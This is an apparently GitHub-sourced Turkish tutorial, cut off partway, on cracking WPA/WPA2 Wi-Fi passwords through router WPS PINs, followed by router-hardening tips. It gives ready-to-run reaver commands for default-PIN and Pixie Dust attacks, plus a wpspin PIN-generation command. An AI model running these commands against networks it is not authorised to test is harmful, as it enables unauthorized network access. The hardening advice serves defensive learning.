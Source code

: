 ## 📌 Açıklamalar:

-b XX:XX:XX:XX:XX:XX → Modemin MAC adresini gir.
-p 12345670 → Bilinen varsayılan WPS PIN’iyle giriş yapmayı dener.
-vv → Detaylı çıktı almak için kullanılır.
**💡 Varsayılan PIN’leri öğrenmek için bazı kaynaklar:**

**🔹 3️⃣ Bulunan PIN'leri Kullanarak WPA/WPA2 Şifresini Kırma**

Eğer modem bilinen varsayılan bir WPS PIN kullanıyorsa, bu PIN’i aşağıdaki gibi kullanarak WPA/WPA2 şifresini öğrenebilirsin:
```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -p 12345670 -vv
```

### Eğer modem Pixie Dust açığına sahipse, saldırıyı hızlandırabilirsin:

```bash
reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -K 1 -vv
```
-K 1 → Pixie Dust saldırısını başlatır (bazı modemlerde saniyeler içinde şifreyi çözer).
**🔹 4️⃣ Router Modeline Göre PIN Bulma**

Bazı modemler, belirli bir algoritmaya göre PIN oluşturur. WPS PIN hesaplayıcıları kullanarak uygun PIN’i bulabilirsin:
```bash
wpspin XX:XX:XX:XX:XX:XX
```

### Bu komut, modem MAC adresine göre tahmini WPS PIN kodları üretir.


## 📌 Modem Güvenliği Nasıl Sağlanır?

Modemler, saldırganlar için en önemli hedeflerden biridir. Güvenliğini artırmak için aşağıdaki önlemleri almalısın:
**🔹 1️⃣ Modem Arayüzü İçin Güçlü Bir Şifre Kullan**


### Modem arayüzüne giriş yapan biri, tüm ayarlarını değiştirebilir!

Fabrika çıkışlı kullanıcı adı ve şifreleri değiştir (Genellikle "admin/admin" veya "admin/1234" gibi zayıf şifreler olur).
Güçlü bir yönetici şifresi belirle (Örn: T1mE!@#SeCuRe890)
Farklı bir kullanıcı adı ayarla, böylece saldırganların tahmin etmesi zorlaşır.
**🔹 2️⃣ WPA3 veya WPA2-PSK Şifreleme Kullan**


### Ağını korumak için en güvenli şifreleme protokolünü kullanmalısın.
